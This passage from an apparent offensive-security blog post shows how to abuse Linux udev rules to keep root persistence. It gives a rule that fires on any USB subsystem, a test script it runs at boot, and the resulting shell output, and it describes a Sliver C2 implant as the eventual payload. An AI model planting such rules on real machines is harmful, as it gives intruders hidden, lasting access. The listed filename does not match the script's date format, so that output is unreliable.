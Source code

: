 On the other hand, instead of pointing to a specific device, it is possible to point to a father device. In other words, it is possible to point to `usb` subsystems or to the `PCI` subsystem. This is very interesting to us as attackers because this way the rule will be triggered even at system startup. It will not only help us to establish persistence upon the detection of a specific device but also ensure it at system startup.

```bash
test@test:~$ cat /etc/udev/rules.d/test.rules
SUBSYSTEMS=="usb", RUN+="/bin/sh -c 'touch /home/test/hi.txt'"
```

## Abusing `udev` rules to establish persistence
{{< admonition note "Assumptions" true>}}
As it is a persistence method, we start from a scenario where we have compromised the machine and have `root` privileges. In this case, the persistence method we will employ involves executing an implant that call home to our `Sliver` `C2` server. We could use a `dropper` to prevent the implant from touching the disk, but for the purposes of the PoC, we will directly download the implant to disk.
{{< /admonition >}}

### It seemed too easy
Having understood the theory, it seems easy:
- As a match key, we set the detection of any `usb` subsystem. Besides triggering when it detects a device of this type, this will ensure execution (i.e., persistence) on every system startup.
- As a assignment key, we set the `RUN` key pointing to our implant.

But before tackling with complexities, it's preferable to simplify in order to debug and check that all is working as expected. We'll create a rule that, instead of executing the implant, will run a script `.sh` which will write a file to disk.

The rule located at `/etc/udev/rules.d/ttp.rules`:
```bash
test@test:~$ cat /etc/udev/rules.d/ttp.rules
SUBSYSTEMS=="usb", RUN+="/bin/sh -c '/opt/scripts/trigger.sh'"
```

The referenced script `/opt/scripts/trigger.sh`:
```bash
#!/bin/bash

# This workaround ensures that the execution is done only once.
# Not very fancy, but quick.

FILE=/home/test/file_udev$(($(date "+%Y%m%d%H")))
if [ ! -f $FILE ]; then
	touch $FILE
fi
```

We give execution rights to the scripts and plug in the USB:
```bash
test@test:/etc/udev/rules.d$ chmod +x /opt/scripts/trigger.sh
test@test:/etc/udev/rules.d$ # check that the file doesn't exist
test@test:/etc/udev/rules.d$ ls -la /home/test/file_*
test@test:/etc/udev/rules.d$ ls: cannot access 'file_*': No such file or directory
test@test:/etc/udev/rules.d$ # plug in the USB
test@test:/etc/udev/rules.d$ # check that the rule has created the file
test@test:/etc/udev/rules.d$ ls -la /home/test/file_*
-rw-r--r-- 1 root root 0 ene 11 20:56 /home/test/file_1705002989316
```
